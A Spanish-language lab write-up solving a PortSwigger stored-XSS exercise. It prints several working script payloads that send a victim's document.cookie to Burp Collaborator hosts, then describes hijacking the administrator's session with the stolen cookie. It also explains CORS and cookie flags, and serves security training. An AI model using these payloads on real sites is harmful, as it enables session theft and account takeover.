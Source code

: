 ```yaml
---
title: "Exploiting cross-site scripting to steal cookies"
date: 2025-01-18 12:25:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XSS
tags:
  - XSS
  - Exploiting cross-site scripting to steal cookies
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una vulnerabilidad de `stored XSS` en la función de `comentarios del blog`. Un usuario `víctima` simulado ve todos los `comentarios` después de que se publiquen. Para `resolver` el `laboratorio`, debemos `explotar` la vulnerabilidad para `exfiltrar` la `cookie de sesión` de la víctima, luego usar esta `cookie` para `suplantar` a la víctima

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XSS-Lab-22/image_1.png)

Si pulsamos sobre `View post` vemos que tenemos una `sección` en la que podemos hacer `comentarios`

![](/assets/img/XSS-Lab-22/image_2.png)

Al hacer un `comentario` nos mete el `input` en unas `etiquetas <p></p>`

![](/assets/img/XSS-Lab-22/image_3.png)

Sin embargo, si intentamos `inyectar` algo entre `etiquetas <h1></h1>` vemos que nos `inyecta` las `etiquetas` con su `contenido` y deja las `<p></p>` vacías

![](/assets/img/XSS-Lab-22/image_4.png)

Hay diferentes opciones para `obtener` la `cookie`, podemos utilizar `fetch` con las opciones `CORS` o `no-cors` o usando el método `GET` o `POST`. Luego tenemos a `XMLHTTPRequest`, con el cual podemos hacer tanto peticiones `GET` como `POST`, pero no podemos especificar la opción `no-cors`, es decir, siempre se tendrá en cuenta el `CORS` [https://developer.mozilla.org/es/docs/Web/HTTP/CORS](https://developer.mozilla.org/es/docs/Web/HTTP/CORS)

El `CORS` es un mecanismo basado en `cabeceras HTTP` que permite a un `servidor` indicar cualquier `dominio`, `esquema` o `puerto` con un `origen distinto` del suyo desde el que un navegador debería permitir la carga de recursos. `CORS` también se basa en un mecanismo por el cual los `navegadores` realizan una `solicitud` de `verificación previa` al `servidor` que aloja el `CORS`, con el fin de comprobar que el `servidor` permitirá la solicitud real. En esa comprobación previa, el navegador envía `cabeceras` que indican el `método HTTP` y las `cabeceras` que se `utilizarán` en la `solicitud real`

Un ejemplo de `CORS` sería el código `JavaScript` del `front-end`, desde `http://domain-a.com` utiliza `XMLHTTPRequest` para realizar una solicitud a `http://domain-b.com/data.json`

Por razones de `seguridad`, los navegadores restringen las `peticiones HTTP` de origen cruzado iniciadas desde `scripts`. Por ejemplo, `XMLHTTPRequest` y la API `Fetch` siguen la `Política Same-origin`. Esto significa que una `aplicación web` que utilice esas `API` solo puede solicitar `recursos` del mismo `origen` desde el que se cargó la aplicación, a menos que la respuesta de otros `orígenes` incluya las `cabeceras CORS` adecuadas

En esta primera petición estamos mandando una `petición` con el método `POST` y es una petición `asíncrona`, es decir, las operaciones pueden `ejecutarse` en `paralelo` o en `segundo plano`. El programa `no espera` a que una `tarea termine` para continuar con la siguiente, lo que permite que se realicen `múltiples operaciones simultáneamente`

```
<script>
    var request = new XMLHttpRequest();
    request.open('POST', 'http://lf4spwr5be5vcxtn56uquhp4yv4qsgg5.oastify.com', true);
    request.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    var data = 'cookie=' + encodeURIComponent(document.cookie);
    request.send(data);
</script>
```

En este caso la `petición` se `realiza` por el método `GET` y es `síncrona`, lo cual quiere decir que el `programa` se `bloquea` hasta que esa `tarea` se `complete`, lo que `significa` que `no puede hacer nada más mientras espera`

```
<script>
    var request = new XMLHttpRequest();
    request.open('GET', 'http://gk4nurw0g9aqhsyia1zlzcuz3q9lxcl1.oastify.com/cookie=' + encodeURIComponent(document.cookie), false);
    request.send();
</script>
```

Con `fetch`, a diferencia de `XMLHTTPRequest` podemos `especificar` también si usamos `CORS` o no. El `modo no-cors` tiene la `ventaja` de poder `enviar` una `solicitud` a un `servidor` que no esté `configurado` `para permitir solicitudes de otros orígenes` (por ejemplo, un `servidor` en un `dominio diferente`) y también tiene una `desventaja`, `restringe` el `acceso` a la `respuesta`, por lo cual `no podremos leer ni manipular los datos que el servidor envíe de vuelta`

```
<script>
    fetch('http://gk4nurw0g9aqhsyia1zlzcuz3q9lxcl1.oastify.com', {
        method: 'POST',
        mode: 'no-cors',
        body: encodeURIComponent(document.cookie)
    });
</script>
```

En este caso estamos usando el `método GET` y siguiendo las `convenciones` de `CORS`, ya que es el `modo por defecto`. En este caso tenemos `dos formas` de `transmitir` la `petición` usando el `método GET`, si queremos especificar que `no queremos usar CORS` lo hacemos de esta forma

```
<script>
  fetch("http://0vw75b7krtlasc92lla5aw5jeaka8cw1.oastify.com?cookie=" + encodeURIComponent(document.cookie), {
    method: 'GET',
    mode: 'no-cors'
  });
</script>
```

Si `no necesitamos especificar un modo` podemos `usar` esta otra forma que `seguirá` las `directivas CORS por defecto`

```
<script>
    fetch('http://vut2466fqok5r78xkg909r4ed5j77xvm.oastify.com?cookie=' + encodeURIComponent(document.cookie));
</script>
```

Es importante `realizar` las `peticiones` a un `servidor` mediante `HTTPS` y no `HTTP` en este caso. Si usamos este `payload` la `petición` será `bloqueada` y no nos llegará nada a nuestro `servidor` de `Burpsuite Collaborator`

```
<script>
    fetch('http://vut2466fqok5r78xkg909r4ed5j77xvm.oastify.com?cookie=' + encodeURIComponent(document.cookie));
</script>
```

Si nos `abrimos` el `inspector` de `Chrome` y vemos que la `flag Secure` está seteada en la `cookie`, esta flag asegura que la `cookie` solo se enviará a través de conexiones `seguras` (`HTTPS`). Es una `medida de seguridad` para `evitar` que las `cookies` sean `transmitidas` a través de `conexiones no seguras` (`HTTP`), donde podrían ser `interceptadas` por un `atacante`. A pesar de tener esta `flag`, seguimos pudiendo obtener esta `cookie` mediante `XSS` debido a que la `flag HttpOnly no está seteada`. Esta `flag` se encarga de impedir que la `cookie` sea `accesible` a través de `JavaScript`. Si una `cookie` tiene ambas flags (`HttpOnly` y `Secure`), no podremos acceder a ella a través de `JavaScript` aunque se transmita solo por `HTTPS` y tendremos que buscar `formas alternativas`

![](/assets/img/XSS-Lab-22/image_5.png)

Si nos `abrimos` la `consola` de `desarrollador` vemos como la `petición` ha sido `bloqueada` por no ser una `petición` a un `servidor` que soporte `HTTPS`. El error `Mixed Content`, ocurre cuando una `página web cargada a través de HTTPS` intenta hacer una `solicitud` a un `recurso a través de HTTP`. Esto es considerado `inseguro` y, por lo tanto, el `navegador bloquea la solicitud` para `proteger` la `seguridad` y la `privacidad` de la `web`

![](/assets/img/XSS-Lab-22/image_6.png)

Para `resolver` el `laboratorio` debemos irnos a `Burpsuite Collaborator`, pulsar en `copy to clipboard`, `sustituir` este `subdominio` en alguno de los `cuatro tipos de payloads` explicados anteriormente y `enviarlo a través de un comentario`

![](/assets/img/XSS-Lab-22/image_7.png)

Como hay un `usuario revisando nuestro comentarios`, en el momento en el que `entre al post donde se encuentra publicado nuestro comentario` nos mandará a `Burpsuite Collaborator` sus `cookies`

![](/assets/img/XSS-Lab-22/image_8.png)

Teniendo las `cookies` del `usuario administrador`, nos debemos ir al `navegador`, pulsar `Ctrl + Shift + i` para que nos abra el `inspector` de `Chrome`, `sustituir` la `cookie` y `refrescar` la `web` pulsando `F5`

![](/assets/img/XSS-Lab-22/image_9.png)

Si pulsamos en `My account` vemos que nos hemos `convertido` en el usuario `administrator`

![](/assets/img/XSS-Lab-22/image_10.png)
